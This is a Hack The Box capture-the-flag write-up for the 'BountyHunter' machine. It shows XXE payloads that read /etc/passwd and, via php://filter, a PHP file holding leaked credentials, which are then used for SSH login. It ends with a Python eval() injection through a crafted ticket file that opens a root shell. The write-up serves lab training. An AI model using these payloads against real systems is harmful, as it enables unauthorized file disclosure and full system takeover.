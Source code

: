 ```yaml
---
title: "HTB Write-up: Bounty Hunter" 
date: "2025-04-15"
author: "Bruno Lamela"
category: "Hack The Box Easy"
image: ./img/htb.png
---
```


<br><br>


  


  


## BountyHunter 

**BountyHunter** is an easy Linux machine that uses XML external entity injection to read system files. Being able to read a PHP file where credentials are leaked gives the opportunity to get a foothold on system as development user. A message from John mentions a contract with Skytrain Inc and states about a script that validates tickets. Auditing the source code of the python script reveals that it uses the eval function on ticket code, which can be injected, and as the python script can be run as root with sudo by the development user it is possible to get a root shell.

---

## Machine Informations

- **IP**: `10.10.11.100`
- **Difficulty**: Easy
- **Type**: Linux
- **Status**: Completed

---

## 1. Machine Discovery

The first step is to discover open services and ports. For this we use a **Nmap scan**.

### Command Nmap

```bash
nmap -sC -sV -p- -v 10.10.11.100

```
![Resultado do Nmap](./img/nmap_bounty_hunter.png)


## 2. Machine Discovery

After identifying that port **80** was open from the Nmap scan, we navigated to the IP in the browser.

![Resultado da pagina portal](./img/Bounty-Hunter/xxe_page.png)

While exploring, we discovered a page named portal.php, which prompted the user to click a link to access log_submit.php.

On the log_submit.php page, we found a bug bounty submission form labeled “Bounty Report System - Beta”. The form included several text input fields such as:

---

**Exploit Title**

**CWE**

**CVSS Score**

**Bounty Reward ($)**

---

## 3. Discovering Hidden Files with Ffuf

After confirming the presence of a web application and identifying portal.php and log_submit.php, we proceeded to look for other potentially hidden or sensitive files on the server.

This scan revealed the presence of a file named:

![Resultado do ffuf](./img/Bounty-Hunter/FFUF.png)

The name suggested that this file might contain database-related logic or credentials, so it became an immediate point of interest for further enumeration.


## 4. XXE Vulnerability & XML Analysis

Using Burp Suite, we intercepted the request made when submitting the form on log_submit.php.
Upon analyzing the request and its response, we noticed that the data being returned was URL-encoded and Base64-encoded.

After decoding it, we discovered that the application was actually handling the input as XML behind the scenes — confirming our suspicion of an XML parser being used on the backend.

![Resultado do ffuf](./img/Bounty-Hunter/burp-request-decode.png)


## 5. Exploiting XXE to Read Sensitive Files

After confirming that the form on `log_submit.php` parsed user input as XML, we crafted a custom XXE payload to exploit the vulnerability.

🧪 First Payload – Reading /etc/passwd
We submitted the following XML payload through Burp Suite (inside one of the text fields):


```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE exploit [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<exploit>
    <title>&xxe;</title>
    <cwe>test</cwe>
    <cvss>5.0</cvss>
    <reward>100</reward>
</exploit>
```
After decoding the response (which was Base64 + URL encoded), we retrieved the contents of /etc/passwd.

This revealed the existence of a user called development, which hinted at a low-privileged user on the system.

🧪 Second Payload – Reading db.php Using php://filter
Next, we leveraged the php://filter stream wrapper to read the source code of the previously discovered db.php file in Base64:


```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE exploit [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php">
]>
<exploit>
    <title>&xxe;</title>
    <cwe>test</cwe>
    <cvss>5.0</cvss>
    <reward>100</reward>
</exploit>
```

After decoding the response again, we found hardcoded credentials in the source code, such as:

```bash
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>

```


## 6. Accessing SSH with the Credentials

With the credentials (development: m19RoAU0hP41A1sTsq6K) obtained from the db.php file, we proceeded to log into the target machine via SSH.

We used the following command:

```bash
ssh development@10.10.11.100

```

When prompted for the password, we entered:

```bash
m19RoAU0hP41A1sTsq6K
```
This successfully authenticated us as the development user on the machine.


## 7. Privilege Escalation

After gaining access to the development user and exploring the machine, we found two key files: user.txt (which contained the user flag) and contract.txt. The contents of contract.txt indicated that there were tickets failing validation, and someone had set up permissions to investigate the issue. Specifically, the Skytrain Inc Ticket Validation System was mentioned.

Upon running sudo -l, we discovered that the development user had permission to run the script ticketValidator.py as root:

```bash
User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py

```
Ticket Validation Vulnerability
The code in ticketValidator.py was parsing ticket files and evaluating the ticket code. The critical part of the code was the following:

```bash
ticketCode = x.replace("**", "").split("+")[0]
if int(ticketCode) % 7 == 4:
    validationNumber = eval(x.replace("**", ""))
    if validationNumber > 100:
        return True
    else:
        return False

```
The code used the eval() function, which allowed arbitrary Python code to be executed. This presented an opportunity for code injection.

**Crafting the Malicious Ticket**
To exploit this, we created a malicious ticket with a payload.md file containing the following code:
```bash
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**4+__import__('os').system('sudo /bin/bash')+200**
##Issued: 2025/04/15
#End Ticket

```
This payload injected the command sudo /bin/bash into the ticketCode, which was then executed as root when the eval() function processed it.

**Gaining Root Access**
Running the script with the malicious ticket caused the system to execute the payload, and we were granted root shell access, effectively giving us full control over the machine.









